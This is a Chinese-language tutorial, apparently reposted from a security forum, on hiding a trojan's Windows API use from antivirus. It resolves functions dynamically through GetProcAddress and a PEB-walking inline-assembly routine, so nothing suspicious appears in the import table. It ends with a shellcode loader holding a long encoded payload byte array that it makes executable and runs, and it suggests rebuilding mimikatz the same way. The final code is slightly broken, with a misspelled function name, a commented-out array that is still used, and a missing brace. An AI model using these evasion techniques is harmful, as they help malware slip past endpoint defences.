


# 动态调用无导入表编译

> 这个是以前发在Tools的文章，不是我偷的！

> 由于大多数加壳软件并不会修改被修改文件的导入表,所以杀毒软件除了计算整个可执行文件的hash值外还会计算pe文件的导入表\(import address tables\)的hash值，通常采用的hash算法为MD5，本文旨在使木马文件不再依赖导入表，从而绕过部分静态查杀。

### 阅读本文前置知识

1. pe文件结构
2. windows api
3. c/c++语言编程基础

### 敏感api调用

杀软会对iat表中的一些敏感函数进行检查，如CreateRemoteThread,VirtualAlloc等，CreateRemoteThread的功能是在其他进程中创建一个线程,众所周知线程就是实际的执行体,那么我们的这个行为就会被杀软关注并检查,那么我们如何解决这个问题呢？

### 确定APi函数

在我们尝试规避检测之前我们需要先确定哪一些是API函数，比如下面这个代码:

```text
#include<stdio.h>
#include<Windows.h>

int main()
{
    printf("hello world\n");
    MessageBoxW(0, TEXT("hello world"), 0, 0);
    return 0;
}
```

如果你不确定哪一个函数是windows的api的话，我们可疑先把他编译出来，然后通过pe查看工具来定位api函数，这里我使用了大家都很熟悉的printf和messageboxW函数。

-&gt;Import Table

```text
  1. ImageImportDescriptor:

OriginalFirstThunk:  0x0001B2F0
TimeDateStamp:       0x00000000  (GMT: Thu Jan 01 00:00:00 1970) 
ForwarderChain:      0x00000000
Name:                0x0001B45A  ("USER32.dll")
FirstThunk:          0x0001B098

Ordinal/Hint API name
------------ ---------------------------------------
0x0286       "MessageBoxW"

  2. ImageImportDescriptor:

OriginalFirstThunk:  0x0001B320
TimeDateStamp:       0x00000000  (GMT: Thu Jan 01 00:00:00 1970)
ForwarderChain:      0x00000000
Name:                0x0001B52C  ("VCRUNTIME140D.dll")
FirstThunk:          0x0001B0C8

Ordinal/Hint API name
------------ ---------------------------------------
0x001C       "__current_exception"
0x001D       "__current_exception_context"
0x0048       "memset"
0x0035       "_except_handler4_common"
0x002E       "__vcrt_GetModuleFileNameW"
0x002F       "__vcrt_GetModuleHandleW"
0x0031       "__vcrt_LoadLibraryExW"
0x0025       "__std_type_info_destroy_list"

  3. ImageImportDescriptor:

OriginalFirstThunk:  0x0001B370
TimeDateStamp:       0x00000000  (GMT: Thu Jan 01 00:00:00 1970)
ForwarderChain:      0x00000000
Name:                0x0001B7EE  ("ucrtbased.dll")
FirstThunk:          0x0001B118

Ordinal/Hint API name
------------ ---------------------------------------
0x0545       "strcat_s"
0x0111       "_exit"
0x02EE       "_seh_filter_dll"
0x0197       "_initialize_onexit_table"
0x02E2       "_register_onexit_function"
0x010C       "_execute_onexit_table"
0x00E8       "_crt_atexit"
0x00E7       "_crt_at_quick_exit"
0x00E0       "_controlfp_s"
0x0566       "terminate"
0x03C9       "_wmakepath_s"
0x03E5       "_wsplitpath_s"
0x057F       "wcscpy_s"
0x0073       "__p__commode"
0x0476       "exit"
0x019A       "_initterm_e"
0x0199       "_initterm"
0x0162       "_get_initial_narrow_environment"
0x0196       "_initialize_narrow_environment"
0x00DC       "_configure_narrow_argv"
0x0081       "__setusermatherr"
0x02F2       "_set_app_type"
0x02EF       "_seh_filter_exe"
0x0015       "_CrtDbgReportW"
0x0014       "_CrtDbgReport"
0x0082       "__stdio_common_vfprintf"
0x0045       "__acrt_iob_func"
0x0549       "strcpy_s"
0x02FA       "_set_new_mode"
0x00DB       "_configthreadlocale"
0x02E3       "_register_thread_local_exe_atexit_callback"
0x00C5       "_c_exit"
0x00CA       "_cexit"
0x0070       "__p___argv"
0x006F       "__p___argc"
0x02F7       "_set_fmode"
0x008E       "__stdio_common_vsprintf_s"

  4. ImageImportDescriptor:

OriginalFirstThunk:  0x0001B258
TimeDateStamp:       0x00000000  (GMT: Thu Jan 01 00:00:00 1970)
ForwarderChain:      0x00000000
Name:                0x0001B9D2  ("KERNEL32.dll")
FirstThunk:          0x0001B000

Ordinal/Hint API name
------------ ---------------------------------------
0x02D0       "GetStartupInfoW"
0x058C       "TerminateProcess"
0x0217       "GetCurrentProcess"
0x02AE       "GetProcAddress"
0x01AB       "FreeLibrary"
0x05CE       "VirtualQuery"
0x02B4       "GetProcessHeap"
0x0349       "HeapFree"
0x0345       "HeapAlloc"
0x0261       "GetLastError"
0x0278       "GetModuleHandleW"
0x0386       "IsProcessorFeaturePresent"
0x021C       "GetCurrentThreadId"
0x056D       "SetUnhandledExceptionFilter"
0x05AD       "UnhandledExceptionFilter"
0x0363       "InitializeSListHead"
0x02E9       "GetSystemTimeAsFileTime"
0x0218       "GetCurrentProcessId"
0x044D       "QueryPerformanceCounter"
0x05FE       "WideCharToMultiByte"
0x03EF       "MultiByteToWideChar"
0x0462       "RaiseException"
0x037F       "IsDebuggerPresent"
```

现在我们确定了messageboxw是windows函数外，还看到很多并非我们指定的函数加载，这是由于在进程初始化前并不单单执行我们定义的代码，还会调用其他的系统函数，至于printf函数至少最外层并非windows api函数，这里不过多讲解。

### GetProcAddress函数

在确定api函数后，我们可以通过windows提供的另一个函数来确定其他函数的函数地址，获得地址后，我们可以通过定义函数指针的方式来执行函数。

```text
#include<Windows.h>

int main()
{
    HMODULE hModule = LoadLibraryW(L"User32.dll");//获取kernel32.dll的地址，HMODULE存放的是模块地址在内存。
    typedef int(WINAPI *pMessageBoxW)(HWND, LPCTSTR, LPCTSTR, UINT);//定义函数指针
    pMessageBoxW MessageBoxW = (pMessageBoxW)GetProcAddress(hModule, "MessageBoxW");//覆盖原来messageboxw的指向。
    MessageBoxW(0, 0, 0, 0);//调用函数
    return 0;
}
```



到这里我们就已经避免了iat表中出现敏感函数，但是如果再极端一点，杀毒软件做了非常严格的限制，以至于LoadLibraryW函数也被监视并限制，在前面我们看到了，哪怕不使用getprocaddress函数，它也会出现在iat表中，我们知道了getprocaddress是存放在kernel32.dll中的，那就存在一个问题，我们如何在不实用LoadLibraryW函数的情况下获取Kernel32的地址。 到这里我们的大致思路已经清晰了。

1. 获取kernel32.dll 基地址；
2. 定位 GetProcAddress函数的地址；
3. 使用GetProcAddress确定 LoadLibrary函数的地址；
4. 然后使用 LoadLibrary加载DLL文件（例如user32.dll）；
5. 使用 GetProcAddress查找某个函数的地址（例如MessageBox）；
6. 指定函数参数；
7. 调用函数。

### 获取kernel32.dll的地址

在windows操作系统中每一个进程系统都维护着一个描述该进程的结构体，我们称之为peb\(进程环境块\)，如可执行文件加载到内存的位置，模块列表（DLL），指示进程是否被调试的标志，不同发行版的windows系统该结构体可能存在着差异，在这个结构体里就维护者一个描述所有载入模块的链表\(InMemoryOrderModuleList\)，无论我们是否使用，系统都会载入kernel32.dll到进程的虚拟地址空间。

InMemoryOrderModuleList链表按照如下次序显示所有已加载模块：

1. calc.exe （可执行文件）
2. ntdll.dll
3. kernel32.dll

查看微软的官方文档有着如下定义：

```text
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;

typedef struct _PEB_LDR_DATA {
  BYTE       Reserved1[8];
  PVOID      Reserved2[3];
  LIST_ENTRY InMemoryOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;

typedef struct _LIST_ENTRY {
  struct _LIST_ENTRY  *Flink;
  struct _LIST_ENTRY  *Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

由于描述过于繁琐，我们采用图例来表示。

因为使用结构体本身使用并不方便，这里使用内嵌汇编的方式来获取kernel32.dll的dllbase。 


```text
HMODULE GetKernel32() {
    HMODULE hModule;
    _asm {
       mov eax, fs: [0x30]//fs:[00]位置存放着当前线程的线程环境块（teb），teb的0x30偏移处存放着当前线程所属进程的peb。
       mov eax, [eax + 0xc]//EAX = PEB->Ldr
       mov esi, [eax + 0x14]//ESI = PEB->Ldr.InMemOrder
       lodsd          //EAX = Second module
       xchg eax, esi     //EAX = ESI, ESI = EAX
       lodsd          //Next module
       mov ebx, [eax + 0x10]//EBX = Base address
       mov hModule,ebx
    }
    return hModule;
}
```



### 无导入表，编译危险可执行文件

现在，我们就已经获取了kernel32.dll的模块地址。

接下来我们就可以不在导入表中出现敏感函数并使用它了。

比如这样，或者我们可以下载mimikatz的源码并在开头使用这个方法替换掉所有mimikatz调用的api，这样我们就得到了一个没有导入表的mimikatz。

```text
int main() {
    //UCHAR shellcode[] =  {'\xbd','\xb0','\x63','\xa7','\x89','\xda','\xc7','\xd9','\x74','\x24','\xf4','\x5b','\x2b','\xc9','\xb1','\xbe','\x31','\x6b','\x14','\x83','\xeb','\xfc','\x03','\x6b','\x10','\x52','\x96','\x7a','\x48','\x29','\x6e','\x80','\x03','\xd9','\x48','\xfe','\xb7','\x15','\x30','\xd4','\x7e','\x64','\x72','\xa9','\x43','\x82','\x4c','\xf4','\x55','\x89','\xf4','\x1e','\xb8','\x4f','\xb6','\x09','\xfb','\xaf','\xc6','\x4a','\x2e','\x0e','\x3c','\x10','\x76','\xdb','\x63','\x34','\x60','\x41','\x3a','\x6b','\xd2','\x98','\xc2','\x4a','\xb5','\x6b','\x60','\xa2','\x1c','\x7d','\xef','\x04','\x18','\xa4','\xfb','\xfb','\x0e','\x46','\x54','\x09','\x17','\x88','\xa0','\x29','\x2b','\x7f','\x36','\x27','\xe6','\x1d','\x75','\x10','\xdd','\x42','\x18','\x95','\x14','\x9e','\x70','\x73','\x01','\x02','\x8d','\x51','\xe7','\xb9','\x88','\x9d','\xcd','\xb5','\x7f','\xe8','\x21','\x48','\x41','\x30','\x8d','\xd4','\xd5','\x9e','\x1d','\x0f','\x4e','\xcc','\x7d','\x6e','\x69','\x99','\x25','\x0a','\x6f','\x5c','\xec','\x99','\x59','\xea','\xb8','\x11','\xc3','\xb6','\xe5','\xda','\x27','\xd5','\xb4','\x8d','\x07','\x65','\xe9','\x7e','\x2f','\xf4','\x9d','\xb6','\x6a','\x35','\x6c','\xd0','\x80','\x62','\xa0','\x4b','\x10','\xa1','\x71','\xa2','\x93','\x2d','\x9e','\x7f','\x4e','\xa4','\x4a','\x1e','\x78','\x6c','\x89','\x95','\xd7','\x65','\xaf','\x6a','\xf0','\x69','\x0b','\x9b','\xfb','\xd2','\x3f','\x99','\x4b','\x7c','\xca','\x1b','\x09','\x5b','\x69','\x55','\x73','\x96','\x24','\xfe','\xd5','\xc4','\x1c','\x4b','\xa7','\x94','\xdc','\x72','\x8d','\xdd','\xf1','\x60','\x4b','\xb0','\x9a','\xc4','\x0f','\x1e','\xf2','\x59','\xcb','\xd1','\x30','\x8f','\xd4','\x1d','\x58','\x92','\xe4','\x37','\x29','\xc0','\x75','\x76','\x2f','\x37','\x97','\x16','\xdf','\x36','\xd8','\x8c','\x97','\x37','\x24','\x76','\x30','\x27','\x77','\xe6','\x03','\xe1','\x63','\xe5','\xb8','\xef','\xac','\x83','\xe1','\x14','\x3a','\xc5','\xef','\x53','\x82','\x26','\x81','\x35','\x4b','\x4b','\xdf','\xc2','\x4e','\xda','\xd5','\x06','\xfb','\x12','\xd4','\xce','\xe6','\x7d','\x4f','\x64','\xb2','\x33','\xc7','\xcc','\x53','\x29','\xec','\x77','\xe3','\x1c','\x55','\x71','\x9a','\xce','\x02','\x26','\xe7','\xbc','\x61','\xd6','\x3c','\x5f','\xe9','\x42','\x29','\x62','\xab','\x52','\x08','\x02','\x4a','\x5f','\x98','\x6f','\x3a','\x45','\xcc','\xa1','\x73','\x5a','\xb1','\x90','\x63','\x8a','\x3d','\x28','\x70','\xa4','\xa7','\xe8','\xa4','\x40','\x2a','\x50','\x8c','\x73','\x4b','\xf3','\xf3','\xc6','\x17','\x41','\xd3','\xbc','\x01','\x45','\x04','\xe3','\x07','\x6c','\x9a','\x68','\x09','\xf7','\xb7','\x02','\xfe','\x71','\x20','\xb9','\x98','\xa7','\x71','\x72','\xfa','\xbb','\x20','\x3e','\x81','\x16','\x91','\x10','\xf8','\x13','\xa9','\xd8','\x62','\xf9','\xa1','\x2a','\x7c','\x46','\x4d','\xc2','\x91','\x56','\x76','\x6e','\x01','\xf7','\x68','\xc9','\x3b','\x98','\xdd','\xa6','\x80','\x98','\x91','\xb6','\x82','\xab','\xfa','\x94','\x33','\xa1','\x33','\x0f','\x15','\xa8','\x3b','\x75','\x8e','\xf8','\x33','\x9e','\x2b','\xf1','\xfb','\x8f','\x03','\xb0','\xf9','\xb9','\x5f','\xcc','\xd2','\xf7','\x2a','\x99','\x34','\xf8','\xee','\xc0','\xfc','\x10','\xdf','\xe0','\xe0','\xc2','\x23','\xf3','\x52','\x9b','\xb0','\xfe','\x8f','\xe8','\x11','\x1e','\x18','\xbc','\xb7','\xdd','\xbe','\xa4','\x13','\xa2','\x66','\x6e','\x1b','\x3f','\xc6','\x1f','\x3f','\x9c','\x2f','\x62','\xbb','\x43','\xc4','\x45','\x6b','\xdf','\x04','\x5c','\x1e','\xc4','\x22','\x0a','\x21','\xf6','\x93','\x7f','\xd9','\x80','\x63','\xe4','\xbb','\x7f','\xc5','\xbe','\xcf','\x57','\xf5','\x29','\x0b','\x65','\x89','\x69','\x44','\x2a','\x49','\x5b','\x8e','\x35','\x9a','\x37','\xc6','\xe2','\x89','\xf0','\x8f','\xc8','\x29','\x24','\xc8','\xf1','\x97','\xb6','\x53','\x5e','\x2e','\xa4','\x36','\x50','\xb3','\x42','\xf9','\x52','\x6e','\xf2','\x09','\x6f','\x2e','\xa7','\x0d','\x45','\x0d','\x05','\x0d','\x49','\x9d','\x1b','\x47','\xb0','\xd7','\x77','\x54','\x2f','\x52','\x0e','\x88','\xf7','\x9d','\x43','\x08','\xa2','\x37','\x2c','\x33','\x31','\xc3','\xd4','\x2f','\x82','\x3d','\x75','\xd8','\x59','\xdb','\x63','\x83','\x1c','\x59','\x62','\x69','\xa8','\x57','\xe5','\xa9','\xc4','\xa9','\x1e','\x4f','\x77','\x27','\x5a','\x1e','\x1d','\x02','\x39','\x8f','\xba','\x57','\xec','\xb9','\x76','\x46','\x30','\x16','\xa8','\x99','\xac','\xe8','\x0f','\x27','\x7f','\x88','\x9c','\x87','\xa3','\x7f','\x45','\xc1','\xff','\xbd','\xa4','\xfa','\x1b','\xa8','\xcb','\x3b','\x13','\x21','\xce','\x7b','\x58','\x03','\x46','\x7a','\x49','\xde','\x10','\xe9','\x50','\xc6','\xd2','\x70','\xe3','\x51','\x83','\x20','\x2d','\x89','\x2d','\x73','\x2f','\xfc','\x43','\x8d','\x91','\x61','\xc6','\x15','\xf5','\x3d','\x8e','\x7f','\xf9','\x30','\x39','\x12','\x08','\xa2','\xa3','\xa8','\x9f','\xda','\x01','\xc4','\xab','\xe3','\xd4','\xdf','\xf0','\xbb','\xb1','\xb0','\xdb','\x71','\x62','\xd9','\xbd','\x15','\xa0','\xd8','\xfa','\xd1','\x09','\x9b','\xe1','\x20','\x82','\x74','\x8e','\xe5','\x33','\x7d','\xc3','\x5f','\xa0','\x5a','\xc9','\xc9','\x0a','\xe1','\xc5','\x0c','\x38','\x6a','\xf7','\x33','\xaf','\x2a','\xc5','\x92','\x7e','\xe7','\xf0','\x76','\x04','\x8e','\xc2','\x6a','\x68','\x35','\x0d','\xb4','\x6b','\x60','\xf0','\xbc','\x2b','\xfe','\x42','\x98','\xa5','\x80','\x3f','\x24','\xc6','\x6f','\x94','\xbb','\x56','\x19','\x54','\x2d','\x59','\x12','\xee','\x36','\xf6','\x5e','\xe1','\xce','\xf9','\xfe','\x58','\xeb','\xb1','\xf8','\xed','\xc2','\x18','\xa8'};


    typedef LPVOID(WINAPI *pVirtualAlloc)(LPVOID, DWORD, DWORD, DWORD);
    typedef BOOL(WINAPI *pVirtualProtect)(LPVOID,DWORD,DWORD,PDWORD);
    typedef BOOL(WINAPI* pWriteProcessMemory)(HANDLE, LPVOID, LPVOID, DWORD, LPDWORD);

    DWORD oldProtect=0;
    HMODULE hKernal32 = GetKernal32();
    pVirtualAlloc VirtualAlloc=(pVirtualAlloc)GetProcAddress(hKernal32, "VirtualAlloc");
    pVirtualProtect VirtualProtect = (pVirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");
    pWriteProcessMemory WriteProcessMemory = (pWriteProcessMemory)GetProcAddress(hKernal32, "WriteProcessMemory");

    //PVOID Address = VirtualAlloc(NULL, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_READWRITE);

    //WriteProcessMemory(GetCurrentProcess(), Address, &shellcode, sizeof(shellcode), NULL);


    //VirtualProtect(Address, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);
    VirtualProtect(&shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);
    ((void(*)(void)) &shellcode)();
    VirtualProtect(&shellcode, sizeof(shellcode), oldProtect, NULL);
    //VirtualProtect(Address, sizeof(shellcode), oldProtect, NULL);

    return 0;
```

